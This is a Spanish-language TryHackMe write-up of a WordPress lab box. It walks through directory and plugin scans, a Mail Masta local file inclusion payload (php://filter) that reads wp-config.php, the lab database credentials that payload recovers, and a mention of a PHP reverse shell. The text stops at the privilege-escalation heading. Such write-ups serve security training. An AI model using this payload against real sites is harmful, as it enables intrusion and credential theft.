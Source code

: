 ```yaml
---
layout: writeup
category: TryHackMe
chall_description: https://tryhackme.com/r/room/allinonemj
points: 160
solves: 2
tags: tryhackme ejptv2
date: 2024-08-23
comments: false
---
```


# Enumeration and Scanning

Primero de todos hacemos un escaneo de los puertos y sus servicios

![image](https://github.com/user-attachments/assets/197fa6d1-b90b-40b4-9b3c-af2cd5b40bbc)

### Puerto 80 (HTTP Server)

Seguimos con la enumeración y comenzamos con el puerto 80:

![image](https://github.com/user-attachments/assets/fb30bc7f-580a-4488-bbce-93669d6c0a2c)

Parece la típica página por defecto de servidores Apache. Enumeramos los directorios del servidor web:

    [+] Url:                     http://10.10.33.133/
    [+] Method:                  GET
    [+] Threads:                 10
    [+] Wordlist:                /usr/local/share/wordlists/dirbuster/directory-list-2.3-medium.txt
    [+] Negative Status codes:   404
    [+] User Agent:              gobuster/3.6
    [+] Timeout:                 10s
    ===============================================================
    Starting gobuster in directory enumeration mode
    ===============================================================
    /wordpress            (Status: 301) [Size: 316] [--> http://10.10.33.133/wordpress/]
    /hackathons           (Status: 200) [Size: 197]
    

Hay un directorio wordpress. Vemos lo que tiene:

![image](https://github.com/user-attachments/assets/fc0ef621-48b0-4c4c-b0d3-65ebcfad41d1)

Parece una web hecha con Wordpress. Le lanzamos WPScan para saber plugins vulnerables, temas vulnerables y enumerar usuarios y conseguimos sacar un usuario:

    [+] elyana
     | Found By: Author Posts - Author Pattern (Passive Detection)
     | Confirmed By:
     |  Rss Generator (Passive Detection)
     |  Wp Json Api (Aggressive Detection)
     |   - http://10.10.29.33/wordpress/index.php/wp-json/wp/v2/users/?per_page=100&page=1
     |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
     |  Login Error Messages (Aggressive Detection)

Probamos bruteforce al login de wordpress y no obtuvimos nada. Volvemos a lanzar WPScan para ver si encontramos alguna vulnerabilidad de los plugins, y encontramos que de Mail Masta 1.0 encontramos 2 vulnerabilidades interesantes:

    [+] mail-masta
     | Location: http://10.10.168.165/wordpress/wp-content/plugins/mail-masta/
     | Latest Version: 1.0 (up to date)
     | Last Updated: 2014-09-19T07:52:00.000Z
     |
     | Found By: Urls In Homepage (Passive Detection)
     |
     | [!] 2 vulnerabilities identified:
     |
     | [!] Title: Mail Masta <= 1.0 - Unauthenticated Local File Inclusion (LFI)
     | [!] Title: Mail Masta 1.0 - Multiple SQL Injection

# Vulnerability assesment

### CVE-2016-10956

 > *The File Inclusion vulnerability allows an attacker to include a file, usually exploiting a "dynamic file inclusion" mechanisms implemented in the target application. The vulnerability occurs due to the use of user-supplied input without proper validation*

Esta vulnerabilidad ataca al pathing "wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=*file*" a través del parámetro pl.
Probamos a acceder a /etc/passwd:

![image](https://github.com/user-attachments/assets/19155f1b-5d52-43df-aeae-8c5cb1fa1d3a)

Le pasamos el siguiente payload:

* http://ip/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=php://filter/convert.base64-encode/resource=/var/www/html/wordpress/wp-config.php *

Para obtener el contenido de wp-config en base64. Procedemos a su decodificación:

![image](https://github.com/user-attachments/assets/586fe8d4-717d-44b3-b87b-1ff6bae196d6)

Y vemos las credenciales de acceso a la base de datos:

    /** The name of the database for WordPress */
    define( 'DB_NAME', 'wordpress' );
    
    /** MySQL database username */
    define( 'DB_USER', 'elyana' );
    
    /** MySQL database password */
    define( 'DB_PASSWORD', 'H@ckme@123' );
    
    /** MySQL hostname */
    define( 'DB_HOST', 'localhost' );

Probamos a utilizar esas credenciales para acceder al panel de Wordpress:

![image](https://github.com/user-attachments/assets/c44e1a6d-853c-4cb6-9f71-cf6f94d68de6)

Con este acceso, ya podemos crear una PHP Reverse Shell en uno de los temas y con ello acceder al sistema:



# Privilege escalation
